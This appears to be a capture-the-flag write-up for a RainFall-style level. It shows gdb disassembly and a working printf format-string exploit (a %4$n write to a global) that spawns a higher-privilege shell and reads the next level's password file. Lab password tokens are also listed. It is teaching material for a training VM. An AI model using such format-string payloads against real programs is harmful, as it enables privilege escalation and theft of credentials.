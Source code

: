 # Level2 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level3 | `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02` |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`                                                                 |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level3` user

```shell
ssh level3@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

Notice there is a binary with level3 setuid and setgid.

2. Debug level3

Execute level3

```shell
./level3
(stdin) abcdef
> abcdef
```

Seems to be like level3

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  v                                                                                                                           │id
  0x0804851a  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804851a <+0>:     push   %ebp
  0x0804851b <+1>:     mov    %esp,%ebp
  0x0804851d <+3>:     and    $0xfffffff0,%esp
  0x08048520 <+6>:     call   0x80484a4 <v>
  0x08048525 <+11>:    leave
  0x08048526 <+12>:    ret

gdb-peda$ pdisas v
  0x080484a4 <+0>:     push   %ebp
  0x080484a5 <+1>:     mov    %esp,%ebp
  0x080484a7 <+3>:     sub    $0x218,%esp
  0x080484ad <+9>:     mov    0x8049860,%eax
  0x080484b2 <+14>:    mov    %eax,0x8(%esp)
  0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
  0x080484be <+26>:    lea    -0x208(%ebp),%eax
  0x080484c4 <+32>:    mov    %eax,(%esp)
  0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
  0x080484cc <+40>:    lea    -0x208(%ebp),%eax
  0x080484d2 <+46>:    mov    %eax,(%esp)
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>
  0x080484da <+54>:    mov    0x804988c,%eax
  0x080484df <+59>:    cmp    $0x40,%eax
  0x080484e2 <+62>:    jne    0x8048518 <v+116>
  0x080484e4 <+64>:    mov    0x8049880,%eax
  0x080484e9 <+69>:    mov    %eax,%edx
  0x080484eb <+71>:    mov    $0x8048600,%eax
  0x080484f0 <+76>:    mov    %edx,0xc(%esp)
  0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
  0x080484fc <+88>:    movl   $0x1,0x4(%esp)
  0x08048504 <+96>:    mov    %eax,(%esp)
  0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
  0x0804850c <+104>:   movl   $0x804860d,(%esp)
  0x08048513 <+111>:   call   0x80483c0 <system@plt>
  0x08048518 <+116>:   leave
  0x08048519 <+117>:   ret
```

We can see the `fgets` function. Unlike `gets`, `fgets` has an overflow protection due to a limitation on input size. We need to look elsewhere for our exploit...

By looking the next lines, we see `printf` function and his return stored in `%eax` register, which is compared.

```shell
[...]
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>
  0x080484da <+54>:    mov    0x804988c,%eax
  0x080484df <+59>:    cmp    $0x40,%eax
  0x080484e2 <+62>:    jne    0x8048518 <v+116>
[...]
```

Indeed, if the returned value is equal to 0x40, then we can continue the program until we meet our `system` call, which calls a subshell

```shell
gdb-peda$ b *v+54
> Breakpoint 1 at 0x80484da

gdb-peda$ run
> # enter input

gdb-peda$ p $eax
$1 = 0x0

gdb-peda$ set $eax=0x40

gdb-peda$ continue
> Wait what?!
> [New process 4555]
> process 4555 is executing new program: /bin/dash
```

Now we need to find how to give the right format to `printf` so that he returns 0x40

After some research, we found that we can exploit `printf` format. We can do some tests and make it print the adresses on the stack with `%x` and find its place on the stack like above : 

![alt text](https://axcheron.github.io/images/2018-04-22-exploit-101-format-strings/error_printf.svg)

```shell
level3@RainFall:/tmp$ ~/level3
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x # input here
> AAAA00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.2e783830
```
Here we needed to find the pointer to "AAAA", our input.  
The `%x` specifiers is stored in buffer and interpreted by the `printf()` function resulting in reading data from the stack. For each `%x`, `printf()` will fetch a number from the stack, treat this number as an address, and print out the memory contents pointed by this address as a string.  
We can see that our string ("A" = 41) is the 4th argument on the stack.

We can use the `%n` specifier : it will write the size of our input at the address pointed by `%n`. For example, the following input : AAAA%n, means that we will write the value 4 (because the size of “AAAA” equals 4) at the address pointed by `%n`.

In our case we are going to point in on the 4th argument so `%4$n`. As there is no arguments given in printf, `%n` will read the 4 octets that it points in. We are pointing it to the beginning of our string which the 4 first octets are `41414141` which means writing 4 (size of "AAAA") in the adress `0x41414141`.

However, we don't want to write 4 at the adress pointed by "AAAA" (which is 0x41414141) but 64 at the adress that will be compared.

```shell
   0x80484d5 <v+49>:    call   0x8048390 <printf@plt>
=> 0x80484da <v+54>:    mov    eax,ds:0x804988c
   0x80484df <v+59>:    cmp    eax,0x40
```

The adress we want is `0x804988c` which is `\x8c\x98\x04\x08` in shellcode in little endian
His size in the string is 4, we need to add 60 : we will do it by adding padding of 60 in the `%n` specifier

```shell
python -c 'print "\x8c\x98\x04\x08%60x%4$n"' > /tmp/exploit

cat /tmp/exploit - | ./level3 
> �                                                         200
> Wait what?!

> whoami
> > level4

> cat /home/user/level4/.pass
> > b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Sources

### Buffer overflow

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [gets vs fgets](https://iq.opengenus.org/gets-vs-fgets-in-c/#:~:text=depends%20on%20system-,gets()%20keeps%20reading%20input%20until%20newline%20character%20or%20end,of%20input%20characters%20is%20reached.)

### Shellcode

- []()

### C

- []()

### Shell

- []()
